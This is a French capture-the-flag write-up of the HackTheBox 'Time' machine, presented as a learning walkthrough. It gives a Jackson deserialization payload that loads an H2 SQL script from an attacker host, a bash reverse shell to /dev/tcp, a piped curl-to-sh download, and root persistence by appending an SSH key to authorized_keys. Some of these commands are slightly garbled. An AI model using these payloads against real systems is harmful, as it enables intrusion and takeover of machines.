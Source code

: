 ```yaml
---
title: " HackTheBox - [Time] "
description: Simple writeup of the Time box on Hackthebox.
---
```


![Time](https://media.discordapp.net/attachments/490431433559506954/832933487954231336/screenshot-193.png)


![r](https://cdn.discordapp.com/attachments/519930659620257797/832739076687134800/68747470733a2f2f692e696d6775722e636f6d2f344d37495777502e676966.gif)

## 0x1 - Scanning port


```sh
PORT STATE SERVICE VERSION 
22/tcp open ssh  OpenSSH 8.2p1 Ubuntu 4ubuntu (Ubuntu Linux;
protocol 2.0)
80/tcp open http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Online JSON parser
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

On peut apercevoir qu'il y a les ports suivants qui sont ouverts :

```sh
80/http
22/ssh
Système d'exploitation Linux.
```

Nous allons jeter un coup d'œil au port http/80 pour voir ce qu'il y'a d'intéressant.


## 0x2 - Foothold


Nous voyons un embellisseur et un validateur json en ligne avec 2 options, "Beatify" et "Validate! (Beta)".

![A](https://media.discordapp.net/attachments/490431433559506954/832936431823224862/unknown.png)

J'ai intercepté les deux options dans burpsuite et je viens de saisir un échantillon de données ``JSON`` dans le champ de saisie, sélectionnez l'option ``Beautify`` et cliquez sur le bouton ``PROCESS`` . Nous pouvons voir que cela fonctionne. 

Maintenant, essayez la même chose sur ``"Validate! (Beta)"`` options : 


![a](https://media.discordapp.net/attachments/490431433559506954/834012057694371850/unknown.png)


Vous avez une erreur!

```sh
Validation failed: Unhandled Java exception:com.fasterxml.jackson.databind.exc.MismatchedInputException: Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object
```




J'ai collé le message d'erreur dans la barre de recherche google : ```Unexpected token(START_OBJECT), expected START_ARRAY: need JSON Array to containAs.WRAPPER_ARRAY type information for class java.lang.Object``` Je suis tombé sur un article de stackoverflow, expliquant l'erreur en question.
<a href="https://stackoverflow.com/questions/26251486/jackson-polymorphic-deserialization-expected-start-array">here article</a>



![ak](https://media.discordapp.net/attachments/490431433559506954/834008824389959690/unknown.png)



Après l'avoir lu, j'ai compris que l'erreur est liée à Jackson Polymorphic Deserialization expected START_ARRAY.

Maintenant, vous devez créer un fichier inject.sql et ajouter un reverse shell en bash pour qu'il me rappelle. :

```sh
CREATE ALIAS SHELLEXEC AS $$ String shellexec(String cmd) throws java.io.IOException {
        String[] command = {"bash", "-c", cmd};
        java.util.Scanner s = new java.util.Scanner(Runtime.getRuntime().exec(command).getInputStream()).useDelimiter("\\A");
        return s.hasNext() ? s.next() : "";  }
$$;
CALL SHELLEXEC('bash -i &>/dev/tcp/10.10.14.90/1337 0>&1 &')
```

Maintenant démarrer un listenner avec netcat :

```sh
nc -nvlp 1337
listening on [any] 1337 ...
```

Et injecter votre payload sur l'option : "Validate!(Beta)".

```sh
[“ch.qos.logback.core.db.DriverManagerConnectionSource”,{“url”:”jdbc:h2:mem:;TRACE_LEVEL_SYSTEM_OUT=3;INIT=RUNSCRIPT FROM ‘http://IP:PORT/inject.sql'”}]
```

Et vous obtenez un reverse shell sur l'user pericles.

```sh
listening on [any] 1337 ...
connect to [10.10.14.90] from (UNKNOWN) [10.10.10.214] 42212
```


Pour avoir un reverse shell stable type :

```sh
$python -c “import pty;pty.spawn(‘/bin/bash’)”
$export TERM=xterm
```

Vous obtenez l'user flag :

```
pericles@time:/home/pericles$ cat user.txt 
cat user.txt
7u7243a41d508868b8c935c47b554ad7
```
## 0x3 - Privilege Escalation

Maintenant nous allons upload Linpeas ( LinPEAS est un script qui recherche des chemins possibles pour augmenter les privilèges sous Linux ).

Installer linpeas : <a href="https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS">Linpeas</a>

Start un serveur python où se trouve votre fichier linpeas.sh et curl vers la machine cible.

```
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim
```

Nous pouvons voir que root a accédé à ce fichier: «/usr/bin/timer_backup.sh». Qui appartient à votre utilisateur et est accessible en écriture et writeable.


![ak](https://media.discordapp.net/attachments/490431433559506954/834009494190817280/unknown.png)


Vous devez créer votre clé ssh, ajouter notre clé publique SSH au fichier allowed_keys sur le serveur. Pour ce faire, suivez les commandes suivants :


```sh
ssh-keygen
( no passphrase ) 
Copier votre clée id_rsa.pub key 
Et effectuez cette command sur la machine cible. : echo "echo id_rsa.pub >> /root/.ssh/authorized_keys" >> /usr/bin/timer_backup.sh
```

Maintenant vous faites un ``chmod 600`` pour avoirs les permissions puis vous vous connecter au port ssh avec la clée ``id_rsa`` : 


```sh
chmod 600 id_rsa && ssh -i id_rsa root@10.10.10.214
```

Done ! 

```sh
root@time:~# whoami
root
root@time:~# id
uid=0(root) gid=0(root) groups=0(root) 
```

Nous avons root la machine avec succès.

```sh
root@time:~# cat /root/root.txt
adsd9hf0c86b8786477033415e3018a4
```

##  Summary Of Knowledge : 

- Java Deserialization
- System Timer Exploitation

## About me :

- Post author : x0ld
- Github : https://github.com/x0ld
- Twitter : @x0ld7
- HTB : https://www.hackthebox.eu/home/users/profile/491690


